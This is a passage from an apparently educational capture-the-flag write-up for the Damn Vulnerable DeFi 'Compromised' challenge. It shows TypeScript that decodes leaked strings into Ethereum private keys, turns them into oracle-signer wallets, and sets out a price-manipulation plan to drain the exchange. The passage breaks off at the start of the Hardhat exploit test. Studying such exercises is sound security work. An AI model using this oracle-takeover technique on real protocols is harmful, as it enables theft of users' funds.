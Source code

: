 - I put them in hex decoder to see if they mean anything, they don't.
- I treat them as hex, but can't make anything out of it (each has 88 bytes in it).
- Hmm, what if they are encoded? Let us treat this as hexadecmials encoded in base64, as often is the case when data is sent over the network.

Et viola, when we do that we realize both are hexadecimals of 32 bytes! Ethereum private keys are 32-bytes too; coincidence? I think not. Here is a snippet from my challenge code:

```ts
// the data given in challenge
const sniffedData = [
  '4d 48 68 6a 4e 6a 63 34 5a 57 59 78 59 57 45 30 4e 54 5a 6b 59 54 59 31 59 7a 5a 6d 59 7a 55 34 4e 6a 46 6b 4e 44 51 34 4f 54 4a 6a 5a 47 5a 68 59 7a 42 6a 4e 6d 4d 34 59 7a 49 31 4e 6a 42 69 5a 6a 42 6a 4f 57 5a 69 59 32 52 68 5a 54 4a 6d 4e 44 63 7a 4e 57 45 35',
  '4d 48 67 79 4d 44 67 79 4e 44 4a 6a 4e 44 42 68 59 32 52 6d 59 54 6c 6c 5a 44 67 34 4f 57 55 32 4f 44 56 6a 4d 6a 4d 31 4e 44 64 68 59 32 4a 6c 5a 44 6c 69 5a 57 5a 6a 4e 6a 41 7a 4e 7a 46 6c 4f 54 67 33 4e 57 5a 69 59 32 51 33 4d 7a 59 7a 4e 44 42 69 59 6a 51 34',
];

// decoded to hex from base64
const decodedData = sniffedData
  .map(raw => Buffer.from(raw.split(' ').join(''), 'hex').toString('utf-8')) // eliminate spaces, convert to base64
  .map(b64 => Buffer.from(b64, 'base64').toString('utf-8')); // convert to utf8

// create wallets from the private keys
const sourceAccounts = decodedData.map(key => new ethers.Wallet(key, attacker.provider));
```

With this, we can connect to two out of three source accounts; this means that we can change the median price that the exchange is reading during a swap!

The objective is to steal the funds, not just change the price. So, here is the plan:

1. Set the token price to 0 ETH
2. Buy some NFTs for a price of 1 wei (0 wei reverts due to a `require` statement within the contract)
3. Set the price back to it's initial price
4. Sell the NFTs you bought in step 2

How many NFTs should we buy to drain the contract? Well, the initial price is 999 ETH and the exchange has 9990 ETH. So, if we buy 10 NFTs for free as described above, and the sell it for 999ETH back, we get 9990 ETH from the exchange, basically taking all its ether!

## Proof of Concept

Here is the Hardhat test code to demonstrate the attack:

```ts
describe('Damn Vulnerable Defi 7: Compromised', () => {
  let owner: SignerWithAddress;
  let attacker: SignerWithAddress;

  let exchange: Exchange;
  let oracle: TrustfulOracle;
  let nftToken: DamnValuableNFT;

  const EXCHANGE_INITIAL_ETH_BALANCE = ethers.utils.parseEther('9990');
  const NFT_SYMBOL = 'DVNFT';
  const INITIAL_NFT_PRICE = ethers.utils.parseEther('999');
  const SOURCE_ADDRESSES = [
    '0xA73209FB1a42495120166736362A1DfA9F95A105',
    '0xe92401A4d3af5E446d93D11EEc806b1462b39D15',
    '0x81A5D6E50C214044bE44cA0CB057fe119097850c',
  ];

  before(async () => {
```